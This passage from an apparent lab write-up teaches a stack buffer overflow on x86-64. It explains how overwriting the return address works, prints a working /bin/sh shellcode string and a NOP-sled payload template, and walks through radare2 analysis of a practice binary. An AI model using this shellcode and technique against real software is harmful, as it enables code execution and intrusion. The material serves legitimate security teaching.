              └─────────────────────────────┘

Lower Memory Addresses


STACK FRAME STRUCTURE (x86-64):
===============================

copy_arg() Stack Frame Layout:
┌─────────────────────────────────┐ ← Higher addresses
│        string parameter         │ ← RDI (not on stack in x86-64)
├─────────────────────────────────┤
│       Return Address            │ ← RIP (8 bytes)
├─────────────────────────────────┤
│       Saved RBP                 │ ← RBP (8 bytes)  
├─────────────────────────────────┤ ← Current RBP points here
│                                 │
│       buffer[140]               │ ← 140 bytes (+ alignment padding)
│                                 │
└─────────────────────────────────┘ ← Lower addresses
```

Earlier, we saw that when a function, in this case main, calls another function, in this case copy_args, it needs to add the return address on the stack so the callee function(copy_args) knows where to transfer control to once it has finished executing. From the stack above, we know that data will be copied upwards from buffer[0] to buffer[140]. Since we can overflow the buffer, it also follows that we can overflow the return address with our own value. We can control where the function returns and change the flow of execution of a program(very cool, right?)  

### Shellcode  

Know that we know we can control the flow of execution by directing the return address to some memory address, how do we actually do something useful with this. This is where shellcode comes in; shell code quite literally is code that will open up a shell. More specifically, it is binary instructions that can be executed. Since shellcode is just machine code(in the form of binary instructions), you can usually start of by writing a C program to do what you want, compile it into assembly and extract the hex characters(alternatively it would involve writing your own assembly). 

For now we’ll use this shellcode that opens up a basic shell:
`\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05`

The basic idea is that we need to point the overwritten return address to the shellcode, but where do we actually store the shellcode and what actual address do we point it at?  
Why don’t we store the shellcode in the buffer - because we know the address at the beginning of the buffer, we can just overwrite the return address to point to the start of the buffer. 
Here’s the general process so far:

- Find the start address of the buffer and the start address of the return address
- Calculate the difference between these addresses so you know how much data to enter to overflow
- Start out by entering the shellcode in the buffer, entering random data between the shellcode and the return address, and the address of the buffer in the return address



Memory addresses may not be the same on different systems, even across the same computer when the program is recompiled. 
Make this more flexible by using a NOP instruction. A NOP instruction is a no operation instruction - when the system processes this instruction, it does nothing, and carries on execution. A NOP instruction is represented using \x90. Putting NOPs as part of the payload means an attacker can jump anywhere in the memory region that includes a NOP and eventually reach the intended instructions. This is what an injection vector would look like:

```markdown
┌──────────────────┐────────────────────┐────────────────────────┐
│     NOP Sled     │     Shell Code     |     Memory Address     |   
└──────────────────┘────────────────────┘────────────────────────┘
```

You’ve probably noticed that shellcode, memory addresses and NOP sleds are usually in hex code. To make it easy to pass the payload to an input program, you can use python:

`python -c “print (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)”`

### Task 8 Exploit  

**Known**  

-The buffer is 140 bytes

**Initial Recon**  


Use Radare2 to open the buffer-overflow script (`:> r2 buffer-overflow`),
perform initial analysis (`:> aaa`), and  
enumerate the flagspace (`:> fs`) 



This reveals the entry point of the progra is 0x00400450  

enumerate the flagspaces until there is a reference to the copy_arg function, which is found in the symbols flagspace:  

`:> fs symbols; f`  

The entry point of this function is 0x00400527  

  

Use a Hex calculator to identify the difference.  

In Hex value:
00400527 – 00400450 = D7

In Decimal value:
4195623 – 4195408 = 215

  

Move to the entry point of the function  

`:> s sym.copy_arg`  

This will move to the entry point of the copy_arg function, shown by the display of the memory address corresponding to the flagspace

  

Print the function to learn more about what happens inside

`:> pdf`  

  

`python -c 'print "A" * 146' | ./buffer-overflow`


## BUFFER OVERFLOW EXERCISE 2